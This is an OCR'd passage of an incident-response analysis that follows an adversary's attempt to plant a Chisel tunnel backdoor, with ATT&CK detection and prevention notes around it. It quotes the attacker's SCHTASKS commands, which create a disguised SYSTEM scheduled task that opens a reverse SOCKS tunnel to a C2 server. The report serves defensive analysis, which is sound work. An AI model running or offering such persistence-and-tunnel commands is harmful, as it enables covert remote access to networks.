 **Monitor Network Traffic Content**  
Source: ATT&CK data component Network Traffic Content in the context of technique T1133

Monitor and analyze traffic patterns and packet inspection associated to protocol(s) that do not follow the expected protocol standards and traffic flows (e.g extraneous packets that do not belong to established flows, gratuitous or anomalous traffic patterns, anomalous syntax, or structure). Consider correlation with process monitoring and command line to detect anomalous processes execution and command line arguments associated to traffic patterns (e.g. monitor anomalies in use of files that do not normally initiate connections for respective protocol(s)).

### 2.9. Installation attempts of another backdoor

| **Timestamp** | Day 120, 19:54 |
|---|---|
| **Techniques** | T1053.005 Scheduled Task to achieve TA0003 Persistence |
| **Tools** | Chisel Backdoor |
| **Target tech** | Windows Server |

After another break in activity, the adversary returned to the network and attempted to install another backdoor: Chisel. However, this backdoor was detected and stopped by Windows Defender.

Chisel is an open-source TCP tunnel that allows for, among other things, connections to a network environment. While the tool was originally developed for non-malicious purposes, it is regularly abused by adversaries to bypass firewalls and to maintain access to a network. It is unclear as to why the adversary installed multiple different persistent mechanisms as no traces were found that any of the previously installed persistence methods were noticed and removed by the victim.

In their first attempt, the adversary dropped an executable called finder.exe on a server. Fox-IT found that this executable was in fact a renamed version of the Chisel backdoor. Around the time of execution of finder.exe, Fox-IT discovered that a malicious scheduled task named GoogleUpdateTaskMachine was created. Analysis of the PowerShell history that was stored on the affected server uncovered the command that the attacker executed to create this scheduled task:

```
SCHTASKS /CREATE /RU SYSTEM /SC HOURLY /TN "GoogleUpdateTaskMachine" /TR "C:\\Programdata\\finder.exe client *REDACTED IP*:443 R:*REDACTED IP*:3331:socks" /ST 14:00
SCHTASKS /RUN /TN "GoogleUpdateTaskMachine"
```

The task aims to establish a Chisel tunnel between the compromised servers and a C2 server of the attacker. However, as described earlier, the backdoor was detected and deleted by Windows Defender.

After failing to establish the connection, the adversary tried again and was initially successful. However, after a day Windows Defender intervened once again which caused the connection to be disrupted.

#### Prevention

**Network Intrusion Prevention**  
Source: ATT&CK mitigation M1031 in the context of technique T1071

Use intrusion detection signatures to block traffic at network boundaries.

Network intrusion detection and prevention systems that use network signatures to identify traffic for specific adversary malware can be used to mitigate activity at the network level.
